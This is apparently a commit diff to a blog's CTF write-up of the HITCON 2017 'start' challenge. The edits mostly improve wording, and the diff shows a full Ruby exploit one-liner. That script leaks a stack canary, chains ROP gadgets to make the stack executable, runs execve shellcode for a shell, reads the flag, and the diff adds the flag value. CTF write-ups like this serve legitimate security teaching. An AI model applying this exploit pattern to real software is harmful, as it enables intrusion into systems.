

Before and after one commit to R3dCr3sc3nt/R3dCr3sc3nt.github.io, a Jekyll site: the page built from _posts/2017-11-08-HITCON-CTF-2017.md, in a window 1280 px wide and 1400 px high, scrolled down 3407 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; some of the changed text lies outside the part shown.

Commit message:
Update 2017-11-08-HITCON-CTF-2017.md

````diff
--- a/_posts/2017-11-08-HITCON-CTF-2017.md
+++ b/_posts/2017-11-08-HITCON-CTF-2017.md
@@ -67,22 +67,22 @@ The flag is found in stream 42, which can be filtered for with the expression `t
 > nc 54.65.72.116 31337
 > [start-7a3715a6bd61783850f9c109dbc57571.zip](/assets/hitcon2017/start-7a3715a6bd61783850f9c109dbc57571.zip)
 
-Once connected, the server serving the `server.rb` script makes it clear that the start binary is hosted locally and that a ruby script is to be provided for it to run.
+Once connected, the server serving the `server.rb` script makes it clear that the start binary is hosted locally and that a ruby script must provided for it to run.
 
 ![server.rb](/assets/hitcon2017/serverrb.png)
 
-Quickly looking over the `server.rb` script it seems to import the pwntools library - knowing this let's start reversing and creating an exploit for the `start` binary using pwntools, to hopefully later on send the script to the server.
+Quickly looking over the `server.rb` script it seems to import the [ruby port](https://github.com/peter50216/pwntools-ruby) of the [pwntools library](https://github.com/Gallopsled/pwntools) - knowing this let's start reversing and creating an exploit for the `start` binary using pwntools, to hopefully later on send the script to the server.
 
 A stack canary is put on the stack preventing us from conventional buffer overflows or similar things that tamper with the stack.
 
 ![stack canary](/assets/hitcon2017/canary.png)
 
-Luckily there is a way to leak the canary abusing the puts() call. Reading in 24 characters and a newline char `\n`, puts() will print the canary except the last char which is overwritten by the `\n`. Luckily, the last char of the canary is a null-byte in this case so it won't matter.
+Luckily there is a way to leak the canary abusing the `puts()` call. Reading in 24 characters and a newline char `\n`, `puts()` will print the canary except the last char which is overwritten by the `\n`. Luckily, the last char of the canary is a null-byte in this case so it won't matter.
 
 
-Once the canary is obtained it is a simple matter of creating the exploit. I am sure there are multiple paths to success once we control the return address, I chose to go with `mprotect()` which is a syscall allowing us to overwrite permissions on the stack, making it executable (the binary has DEP/NX enabled by default).
+Once the canary is obtained, it is a simple matter of creating the exploit.There are likely multiple paths to success once we control the return address. I chose to go with `mprotect()` which is a syscall allowing us to overwrite permissions on the stack, making it executable. This is necessary, since the binary is protected by [DEP/NX](https://msdn.microsoft.com/en-us/library/windows/desktop/ff966508(v=vs.85).aspx) which marks the stack, and potentially other memory regions, as non-executable.
 
-Using an already present function in this static binary `_dl_make_stack_executable` which is essentially a wrapper around the mprotect() syscall the stack is made executable, a payload is generated with `msfvenom` and the exploit is mounted.
+The function `_dl_make_stack_executable` is already present in our static binary. It is essentially a wrapper around the `mprotect()` syscall. Using this function the stack is made executable, a payload is generated with `msfvenom` and the exploit is mounted.
 
 Here is the initial script I wrote in python (to be ported to ruby).
 
@@ -139,7 +139,7 @@ Once run a shell is obtained.
 
 ![local shell](/assets/hitcon2017/local-shell.png)
 
-Porting to ruby was somewhat of a challenge as I have little to no experience in ruby (although not much has to be changed). It is also not possible, as far as I know, to make use of the interactive pipe in this case so I chose to run single commands on the system one at a time navigating the filesystem until I could cat the flag. This is the final ruby script sent to the server, I sent it as a one-liner although I'm not sure that was necessary.
+Porting to ruby was somewhat challenging, as I have little to no experience in ruby (although not much has to be changed). As far as I know, it is also not possible to make use of the interactive pipe in this case. Therefore, I chose to run single commands on the system eventually using `cat` to read the flag. I chose to re-write the script as a ruby one-liner although there are other ways to send it, through python sockets for example. This is the final ruby script sent to the server.
 
 ```
 payload = "A"*24 + "\n" ;r = Sock.new '127.0.0.1', 31338 ;r.send(payload) ;r.recvline() ;canary = unpack("\x00" + r.recv()[0, 7], bits: 64, endian: 'little', signed: false) ;puts "Leaked canary: " + "0x" + canary.to_s(16) ;payload2 = "exit\n" + "A"*19 + p64(canary) + "A"*8 ;payload2 += p64(0x466c09) ;payload2 += p64(0x6cbfe0) ;payload2 += p64(0x4005d5) ;payload2 += p64(0x7) ;payload2 += p64(0x41881b) ;payload2 += p64(0x4005d5) ;payload2 += p64(0x6cbf90) ;payload2 += p64(0x4768a0) ;payload2 += p64(0x4a554f) ;buf = "\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x56\x57\x48\x89\xe6\x0f\x05"; payload2 += "\x90"*20 + buf; r.send(payload2 + "\n"); r.sendline('/bin/cat /home/start/flag'); puts r.recv()
@@ -148,3 +148,5 @@ payload = "A"*24 + "\n" ;r = Sock.new '127.0.0.1', 31338 ;r.send(payload) ;r.rec
 And flag received!
 
 ![flag](/assets/hitcon2017/flag.png)
+
+The flag is `hitcon{thanks_for_using_pwntools-ruby:D}`
````
